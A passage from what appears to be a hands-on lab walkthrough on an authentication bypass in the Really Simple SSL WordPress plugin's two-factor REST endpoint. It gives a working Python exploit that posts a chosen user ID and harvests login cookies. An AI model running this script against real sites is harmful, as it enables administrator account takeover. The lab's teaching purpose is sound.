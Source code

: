 ```
WordPress
Username or Email: admin
Password:
[Log In]
```


Below is a simple Python script that sends a POST request to the vulnerable endpoint. This script extracts and displays the cookies in response to authenticate the user.

```python
import requests 
import urllib.parse 
import sys 

if len(sys.argv) != 2: 
	print("Usage: python exploit.py <user_id>") 
	sys.exit(1) 
	
user_id = sys.argv[1] 
url = "http://vulnerablewp.thm:8080/rest_route=/reallysimplessl/v1/two_fa/skip_onboarding" 

data = { 
		"user_id": int(user_id), # User ID from the argument
		"login_nonce": "invalid_nonce", # Arbitrary value
		"redirect_to": "/wp-admin/" # Target redirection 
} 

# Sending the POST request 
response = requests.post(url, json=data) 

# Checking the response 
if response.status_code == 200: 
	print("Request successful!\n") 
	# Extracting cookies 
	cookies = response.cookies.get_dict() 
	count = 1 
	
	for name, value in cookies.items(): 
		# Decode the URL-encoded cookie value
		decoded_value = urllib.parse.unquote(value)  
		print(f"Cookie {count}:") 
		print(f"Cookie Name: {name}") 
		print(f"Cookie Value: {decoded_value}\n") 
		count += 1 
	
else: 
	print("Request failed!") 
	print(f"Status Code: {response.status_code}") 
	print(f"Response Text: {response.text}")
```

The above Python code is already available on the **Desktop** of the attached VM with the name `exploit.py`. Open the terminal and execute the script using the the following command:

